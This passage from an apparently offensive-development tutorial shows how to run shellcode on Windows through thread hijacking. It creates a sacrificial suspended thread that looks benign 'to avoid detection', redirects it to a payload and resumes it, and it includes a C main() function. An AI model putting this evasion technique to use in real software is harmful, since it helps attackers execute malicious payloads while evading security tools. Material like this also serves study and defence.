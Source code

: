 Since `RunViaClassicThreadHijacking` requires a handle to a thread, the main function would need to supply that. As previously mentioned, the targeted thread needs to be in a suspended state for `RunViaClassicThreadHijacking` to successfully hijack the thread.

The `CreateThread` WinAPI will be used to create a new thread. The new thread should appear as benign as possible to avoid detection. This can be achieved by making a benign function that gets executed by this newly created thread.

The next step is to suspend the newly created thread for `GetThreadContext` to succeed. This can be done in two ways:

1. Passing `CREATE_SUSPENDED` flag in `CreateThread`'s [dwCreationFlags parameter](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread#parameters). That flag will create the thread in a suspended state.
    
2. Creating a normal thread, but suspending it later using the [SuspendThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-suspendthread) WinAPI.
    

The first method will be used since it utilizes fewer WinAPI calls. However, both methods will require the thread to be resumed after executing `RunViaClassicThreadHijacking`. This will be achieved using the [ResumeThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread) WinAPI which only requires the handle of the suspended thread.

### Main Function

To reiterate, the main function will create a sacrificial thread in a suspended state. The thread will be initially running a benign dummy function which will then be hijacked using `RunViaClassicThreadHijacking` to run the payload.

```c
int main() {
	
	HANDLE hThread = NULL;

	// Creating sacrificial thread in suspended state 
	hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE) &DummyFunction, NULL, CREATE_SUSPENDED, NULL);
	if (hThread == NULL) {
		printf("[!] CreateThread Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Hijacking the sacrificial thread created
	if (!RunViaClassicThreadHijacking(hThread, Payload, sizeof(Payload))) {
		return -1;
	}

	// Resuming suspended thread, so that it runs our shellcode
	ResumeThread(hThread);
	
	printf("[#] Press <Enter> To Quit ... ");
	getchar();

	return 0;
}

```

